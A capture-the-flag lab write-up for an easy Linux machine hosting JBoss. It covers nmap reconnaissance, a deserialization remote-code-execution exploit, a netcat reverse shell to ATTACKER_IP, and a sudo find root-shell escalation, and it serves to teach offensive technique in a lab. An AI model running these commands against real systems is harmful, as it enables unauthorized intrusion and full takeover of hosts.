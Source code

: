 ```yaml
---
title: "Tony the Tiger"
tags:
  - Easy
  - Linux
  - nmap
  - JBoss
  - Java Serialization
  - Insecure Deserialization
  - find
---
```


| Difficulty |
| ---------- |
|    Easy    |

---

**The prompts for this room has been rewritten in this write-up for simplicity sake.**

---

### [ Reconnaissance ]

Let's start things off with a basic `nmap` scan (top 1000 ports) on the target machine.

```
sudo nmap -sC -sV -vv -T4 10.10.104.15
```

**Results:**

```
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:97:8c:b9:74:d0:f3:9e:fe:f3:a5:ea:f8:a9:b5:7a (DSA)
| ssh-dss
[REDACTED]
|   2048 33:a4:7b:91:38:58:50:30:89:2d:e4:57:bb:07:bb:2f (RSA)
| ssh-rsa 
[REDACTED]
|   256 21:01:8b:37:f5:1e:2b:c5:57:f1:b0:42:b7:32:ab:ea (ECDSA)
| ecdsa-sha2-nistp256 
[REDACTED]
|   256 f6:36:07:3c:3b:3d:71:30:c4:cd:2a:13:00:b5:25:ae (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDUpCopvQzPXtEJ8L/lxYpJzOrcLLkU67fx71+Izsx6U
80/tcp   open  http        syn-ack ttl 61 Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Hugo 0.66.0
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Tony&#39;s Blog
1090/tcp open  java-rmi    syn-ack ttl 61 Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1091/tcp open  java-rmi    syn-ack ttl 61 Java RMI
1098/tcp open  java-rmi    syn-ack ttl 61 Java RMI
1099/tcp open  java-object syn-ack ttl 61 Java Object Serialization
| fingerprint-strings: 
[REDACTED]
4446/tcp open  java-object syn-ack ttl 61 Java Object Serialization
5500/tcp open  hotline?    syn-ack ttl 61
| fingerprint-strings: 
[REDACTED]
8009/tcp open  ajp13       syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp open  http        syn-ack ttl 61 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss AS
8083/tcp open  http        syn-ack ttl 61 JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
```

There are quite a number of ports open, but the ones I'm especially interested in are port **22** (SSH), port **80** (HTTP) and port **8080** (HTTP).

The HTTP web server on port **80** contains a blog page:

![screenshot1](../assets/images/tony_the_tiger/screenshot1.png)

The HTTP web server on port **8080** contains a **JBoss** application server:

![screenshot6](../assets/images/tony_the_tiger/screenshot6.png)

---

*JBoss application server is an open-source platform, developed by Red Hat, used for implementing Java applications and a wide variety of other software applications.* 

---

Since the room is all about **Java serialization**, this JBoss server will probably be quite important later on.

---

### [ Find Tony's Flag! ]

Let's focus on Tony's blog first.

The first thing I did was to look for any low-hanging fruit, such as looking at the source code of the page for comments and checking the robots.txt file. There was nothing of interest there.

Next, if we look at the post titled '**My First Post**', we find something interesting:

![screenshot2](../assets/images/tony_the_tiger/screenshot2.png)

Looks like there might be embedded data within the images on the site. Looking around, I managed to find **2** images. I downloaded them onto my machine and tried to see if I could extract any data from them.

In the end, the image that had embedded data was this:

![screenshot3](../assets/images/tony_the_tiger/screenshot3.png)

All I had to do was run `strings` on it and we get Tony's flag within the output:

![screenshot4](../assets/images/tony_the_tiger/screenshot4.png)

---

### [ Exploit! ]

The room tells us to download a zip file which contains the following resources:

![screenshot5](../assets/images/tony_the_tiger/screenshot5.png)

**exploit.py** uses the **ysoserial.jar** file in the file to launch a **remote code execution** attack. It abuses a Java deserialization vulnerability that exists for certain versions of JBoss.

---

**Explanation of vulnerability:**

*It was found that the Apache commons-collections library permitted code execution when deserializing objects involving a specially constructed chain of classes. A remote attacker could use this flaw to execute arbitrary code with the permissions of the application using the commons-collections library.*

Source: https://www.rapid7.com/db/vulnerabilities/http-jboss-cve-2015-7501/

---

We can use this exploit to launch a reverse shell on the target machine.

```
python2 exploit.py 10.10.104.15:8080 'nc -e /bin/sh ATTACKER_IP 4444'
```

With a netcat listener up and running, I ran the command above:

![screenshot7](../assets/images/tony_the_tiger/screenshot7.png)

And we're in!

---

### [ Find User JBoss' flag! ]

Looking around the machine, I find out that there are **3** users:

![screenshot8](../assets/images/tony_the_tiger/screenshot8.png)

Visiting **jboss'** home directory, there is a hidden text file called **.jboss.txt**:

![screenshot11](../assets/images/tony_the_tiger/screenshot11.png)

This file contains the JBoss flag:

![screenshot12](../assets/images/tony_the_tiger/screenshot12.png)

---

### [ Escalation! ]

There is also another text file called **note**:

![screenshot9](../assets/images/tony_the_tiger/screenshot9.png)

Nice, we have jboss' password! Let's log into his account via SSH:

![screenshot10](../assets/images/tony_the_tiger/screenshot10.png)

If we look at jboss' **sudo privileges**:

![screenshot13](../assets/images/tony_the_tiger/screenshot13.png)

We see that jboss can run the `find` command as **root**!

[GTFOBins](https://gtfobins.github.io/gtfobins/find/) provides the following method to exploit this:

![screenshot14](../assets/images/tony_the_tiger/screenshot14.png)

All we have to do is run the following command:

```
sudo find . -exec /bin/sh \; -quit
```

![screenshot15](../assets/images/tony_the_tiger/screenshot15.png)

And just like that, we've opened a root shell.

The root flag can then be found in **/root**:

![screenshot16](../assets/images/tony_the_tiger/screenshot16.png)

It's **base64-encoded**, so let's decode it:

![screenshot17](../assets/images/tony_the_tiger/screenshot17.png)

We get what seems to be a **MD5 hash**. We can try cracking it using my go-to online [hash cracker](https://hashes.com/en/decrypt/hash):

![screenshot18](../assets/images/tony_the_tiger/screenshot18.png)

And we got the root flag!
